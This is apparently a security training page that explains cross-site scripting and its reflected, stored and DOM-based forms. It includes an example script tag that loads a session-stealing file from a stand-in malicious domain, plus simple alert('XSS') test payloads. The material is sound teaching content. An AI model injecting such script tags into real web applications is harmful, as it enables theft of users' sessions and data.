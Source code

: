 ### What is cross-site scripting?
In an XSS attack, an attacker injects malicious scripts into a web application's ***response***, which are processed and executed when rendered by a browser. This can allow the attacker to perform actions on behalf of the user or gain access to sensitive user data, such as ***cookies or session data***.

***JavaScript*** is the most commonly used language for XSS attacks, other languages can be used. For example, ***VBScript*** (supported by Internet Explorer) or ***Flash ActionScript*** (supported by Adobe Flash). ***CSS*** to execute certain types of attacks.

### How does XSS occur?
XSS flaws are typically found in web applications that allow users to input data. The flaw arises when the application fails to sanitize any input it receives and then uses this data in responses it serves to a user. Attackers can exploit this to submit malicious scripts to the application. When this data is used in HTTP responses, these scripts will be injected into the response and executed when the page is rendered.

#### Example:
```
# The following tag would load and run the JS contained in the 'get_session.js' file, by 
# using the 'src' attribute of the script tag.

<script src="http://malicious-domain.bitnet/javascript/get_session.js />
```

### Types of XSS
#### 1. Reflected XSS
Also known as ***non-persistent XSS***, reflected XSS attacks occur when an application takes data and immediately adds that data to the ***HTTP response***. Any data sent to the application is copied (reflected) into the response without being saved anywhere on the web application.

![An example of reflected XSS in a web application. The web application gets the name field from the user input. The payload sent to the application is <script>alert("XSS")</script>. When the page is rendered, an alert box with "XSS" displayed is shown.](https://il-labforge-assets.origin.immersivelabs.team/uploads/RjHrUDBKzlu_4eGbQq1AgqOP-wRFhsPHqaovmBJccGo.png)
Here, the user's name is taken from the value of the "name" parameter in the URL. This data is not saved anywhere on the web application.

#### 2. Stored XSS
Stored (or ***persistent***) XSS occurs when the malicious input is ***saved*** on the target application, typically in a database, and is then used by the application in ***later HTTP responses***. Whenever the application accesses the data containing the XSS payload, that data will be served to the user, and the payload will be executed.

![An example of stored XSS in a web application. The web application gets the name field from the user's name, stored in a database. The payload sent to the application is <script>alert("XSS")</script>. When the page is rendered, an alert box with "XSS" displayed is shown.](https://il-labforge-assets.origin.immersivelabs.team/uploads/WpvASmIwlWC9otB1JaQRGzNNSU4od8b-VgEbftrbF9k.png)
Here, the user's name is retrieved from a database. The XSS payload has been saved in the database and is retrieved whenever that data is accessed.

#### 3. DOM-based XSS
This type of XSS arises when an application contains client-side code that processes data from an untrusted source unsafely, usually by writing the data back to the HTML Document Object Model (DOM). DOM-based XSS differs from reflected and stored XSS in that the user data is not directly used to create HTTP resources, instead relying on modifying the client-side code to alter the application.

![An example of DOM-based XSS in a web application. The web application gets the name field from a client-side JavaScript function called "add_name". This function gets the contents of the "name" URL parameter. The payload sent to the application is <script>alert("XSS")</script>. When the page is rendered, an alert box with "XSS" displayed is shown. The payload sent to the application is <script>alert("XSS")</script>. When the page is rendered, an alert box with "XSS" displayed is shown.](https://il-labforge-assets.origin.immersivelabs.team/uploads/30mEv_tLVG5ELvqViE2qqxDnbAOnLlY6tfIfDTzopzo.png)
Here, the user's name has been added to the webpage by a client-side script.